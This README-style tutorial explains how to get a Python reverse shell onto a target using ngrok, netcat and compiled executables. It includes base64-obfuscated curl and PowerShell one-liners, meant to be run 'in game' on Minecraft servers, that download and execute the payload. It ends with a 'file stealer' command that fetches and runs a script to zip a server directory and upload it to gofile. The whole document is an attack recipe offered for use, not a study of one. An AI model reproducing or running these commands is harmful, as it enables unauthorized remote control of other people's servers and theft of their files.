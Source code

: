 # Python Reverse Shell Tutorial (Linux and Windows)
you will need [Python](https://www.python.org/downloads/), [Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip), & [Ngrok](https://ngrok.com)

## On Your Own Computer
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
`ngrok tcp 4444`


4. **Start Netcat**  
`nc -lvp 4444`


5. **Download and Edit Python File**
   - [Download the Python file](https://catlitter.minoa.cat/api/view/bc52bb227eea93ac2dd0.zip) and in rs.py edit the IP and port to be the Ngrok one.
   - (Must have python installed) run windows compile.bat and only if you have wsl setup you can run linux compile.bat and the files that show up are compilex executables.
   - Upload the compiled files to [wormhole.app](https://wormhole.app/)!
   - Once finished uploading refresh, click download, then go into your downlaod manager and copy the direct download link.

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL for whatever file to Base64.

## In Game (run under the shell command)
7. **Copy and Paste the Command into your Terminal**
   - While in, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
Linux:
`curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)`
`chmod +x {OUTPUT FILE}`
 `./{OUTPUT FILE}`

Windows:
`Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("{BASE64 GOES HERE}"))) -OutFile ([System.IO.Path]::GetFileName(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("{BASE64 GOES HERE}")))))`


8. **Run the File**
Linux:
`chmod +x {OUTPUT FILE}`
 `./{OUTPUT FILE}`
Windows:
`start {OUTPUT FILE}`
 - If there are errors, idk..


# more
## Linux mc server file stealer
```
bash -c 'curl -o steal.sh $(echo "aHR0cHM6Ly9jYXRsaXR0ZXIubWlub2EuY2F0L2FwaS92aWV3L2FkMGI1MTJhNzZiNTBjODhlY2VmLnNo" | base64 --decode) && chmod +x steal.sh && bash ./steal.sh && rm -- steal.sh'
```
*(downloads and runs [this script](https://catlitter.minoa.cat/api/view/ad0b512a76b50c88ecef.sh) that zips and uploads whatever dir you enter to gofile and gives you the link only on linux)*
